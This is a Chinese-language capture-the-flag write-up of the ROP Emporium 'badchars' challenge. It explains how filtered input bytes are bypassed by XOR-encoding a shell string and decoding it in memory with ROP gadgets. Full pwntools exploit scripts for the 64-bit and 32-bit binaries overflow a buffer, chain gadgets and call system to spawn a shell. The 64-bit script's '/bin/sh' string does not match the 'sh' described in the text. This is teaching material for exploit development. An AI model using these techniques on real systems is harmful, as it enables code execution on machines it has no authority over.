badchars
via：https://ropemporium.com/challenge/badchars.html
An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit. Click below to download the binary.
The good, the bad
Dealing with bad characters is frequently necessary in exploit development and you’ve probably had to deal with them before when encoding shellcode. Badchars are the reason that encoders such as shikata-ga-nai exist. Remember whilst constructing your ROP chain that the badchars apply to every character you use, not just parameters but addresses too. To mitigate the need for much RE the binary will list the badchars when you run it.
Options
ropper has a bad characters option to help you avoid using gadgets whose address will terminate your chain prematurely, it will certainly come in handy.
Moar XOR
You’ll still need to deal with writing a string into memory, similar to the write4 challenge, that may have badchars in it. Think about how we’re going to overcome this obstacle; could we use gadgets to change the string once it’s in memory? Are the mutations the badchars undergo predictable or could we remove them from our string entirely so we know what will end up in memory then change them later?
Helper functions
It’s almost certainly worth your time writing a helper function for this challenge. Perhaps one that takes as parameters a string, it’s desired location in memory and an array of badchars. It could then write the string into memory and deal with the badchars afterwards. There’s always a chance you could find a string that does what you want and doesn’t contain any badchars either…
这道题对输入进行了过滤

在 nstrlen 中

一旦字符有 \n 就会截断
在 checkBadchars 中

会一个一个字节去检查，如果输入包含
\x62 \x69 \x63 \x2f \x20 \x66 \x6e \x73

的，把它替换成 \xeb

程序里面有 system 的 plt 了，但是没有 sh
我们只能通过输入，把 sh 放进内存里面去，
但是输入不能包含上面那些字符， b / s 都过滤了
在 usefulGadgets 中

undefined usefulGadgets()
undefined AL:1 <RETURN>
usefulGadgets XREF[1]: Entry Point(*)
00400b30 45 30 37 XOR byte ptr [R15],R14B
00400b33 c3 RET
有一个 gadget
XOR byte ptr [R15],R14B
学过汇编的应该知道，其实就是把放在 r14 寄存器的一个字节字符和 r15 寄存器存的地址指向的那块内存的一个字节进行异或，然后把结果放在 r15 寄存器存的地址指向的那块内存上，记住是 byte ptr （我知道是什么意思，但是我可能描述不好，自己查一下吧，还有异或，我就不讲了）
我们只能用 异或处理 sh 后在放进内存去，因为这样能绕过那个过滤，一下我们能用上面的 gadget 还原字符串
异或的值选什么，用 python 写个脚本测试，要异或出来的结果不包含 badchars
bin_sh = "sh\x00"
badchar = "\x62\x69\x63\x2f\x20\x66\x6e\x73"
j = 0;
for i in range(len(bin_sh)):
tmp = chr(ord(bin_sh[i]) ^ j)
if tmp in badchar:
j = j + 1
continue
print(j)

发现异或 2 不会产生 badchar
好了，现在
看一下，哪个段可写的

选 .data 段（其他可写的段也是可以的）地址：0x00601070
写入处理后的 sh
这里需要一些 gadget 辅助写内存

0x0000000000400b3b : pop r12 ; pop r13 ; ret
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
这两个 gadget 可以达到写内存的目的
试试看：
溢出点，pwnme -> memcpy
填充：0x20 + 0x8 为什么是 0x20 而不是 0x30 看 memcpy 的参数，是从 rbp - 0x20 开始写入的
找到 适合的 gadget(pop r15 ; ret , pop 14; ret 之类的)

通常是可以到的（因为动态链接 __libc_csu_init(),结尾会有，之后遇到 ret2csu 就知道了 ）
0x0000000000400b40 : pop r14 ; pop r15 ; ret
pop r14 ; pop r15 ; ret 位于：0x0000000000400b40
pop r12 ; pop r13 ; ret 位于 0x0000000000400b3b
mov qword ptr [r13], r12 ; ret 位于 0x0000000000400b34
pop rdi ; ret 位于 0x0000000000400b39
data段 地址：0x00601070
异或选 2
写 payload:
from pwn import *
# context.terminal = ["tmux", "split-window", "-h"]
badchars = ELF("./badchars")
p = process("./badchars")
bin_sh = "/bin/sh\x00"
fake_bin_sh = ''
pop_r12_r13_ret = 0x0000000000400b3b # pop r12 ; pop r13 ; ret
mov_r13_r12_ret = 0x0000000000400b34 # mov qword ptr [r13], r12 ; ret
pop_r14_r15_ret = 0x0000000000400b40 # pop r14 ; pop r15 ; ret
xor_r15_r14_ret = 0x00400b30 # xor byte ptr [R15],R14B
pop_rdi_ret = 0x0000000000400b39 # pop rdi; ret
data_section = 0x00601070 # 我们要写入处理后的 sh\x00 的内存地址
system_plt = badchars.plt["system"]
# 把 sh\x00 每个字节和 2 异或
for i in bin_sh:
fake_bin_sh += chr(ord(i) ^ 2)
print(fake_bin_sh)
exp = "A" * 0x28
exp += p64(pop_r12_r13_ret)
exp += fake_bin_sh
exp += p64(data_section)
exp += p64(mov_r13_r12_ret)
for i in range(len(fake_bin_sh)):
exp += p64(pop_r14_r15_ret)
exp += p64(2)
exp += p64(data_section + i)
exp += p64(xor_r15_r14_ret)
# 再次异或 2 得到的结果是放在 data_section 的
exp += p64(pop_rdi_ret)
exp += p64(data_section)
exp += p64(system_plt)
# gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()

pwn！
x86
一样的过滤
直接看漏洞点吧：

填充： 0x28 + 0x4 （不啰嗦，看汇编）
一样，找 gadget 写内存

可用：
0x080488f9 : pop esi ; pop edi ; pop ebp ; ret
0x08048893 : mov dword ptr [edi], esi ; ret
找一下哪一个段可写可读

选 .bss 段，地址：0x0804a040
在 usefulGadgets() 里找到 异或的 gadget

08048890 30 0b XOR byte ptr [EBX],CL
08048892 c3 RET
ROP 找到
0x08048461 : pop ebx ; ret
0x08048897 : pop ecx ; ret
用来设置 ebx 和 ecx
ecx 是 32位寄存器可以分成两个 cx，cx 是16位，cx 可以分成 ch（高 8 位） cl（第 8 位）
所也这里是 pop ecx
一样，sh 异或 2
写 payload:
from pwn import *
# context.terminal = ["tmux", "split-window", "-h"]
badchars32 = ELF("./badchars32")
p = process("./badchars32")
system_plt = badchars32.plt["system"]
data_section = 0x0804a038
pop_esi_edi_ebp_ret = 0x080488f9
mov_edi_esi_ret = 0x08048893
pop_ebx_ret = 0x08048461
pop_ecx_ret = 0x08048897
xor_ebx_cl_ret = 0x08048890
# 把每个字符都异或 2 绕过过滤
bin_sh = "sh\x00\x00"
fake_bin_sh = ''
for i in bin_sh:
fake_bin_sh += chr(ord(i) ^ 2)
exp = "A" * 0x2c
exp += p32(pop_esi_edi_ebp_ret)
exp += fake_bin_sh
exp += p32(data_section)
exp += p32(0xdeadbeef)
exp += p32(mov_edi_esi_ret)
for i in range(len(fake_bin_sh)):
exp += p32(pop_ebx_ret)
exp += p32(data_section + i)
exp += p32(pop_ecx_ret)
exp += p32(2)
exp += p32(xor_ebx_cl_ret)
exp += p32(system_plt)
exp += p32(0xdeadbeef)
exp += p32(data_section)
# gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()

pwn！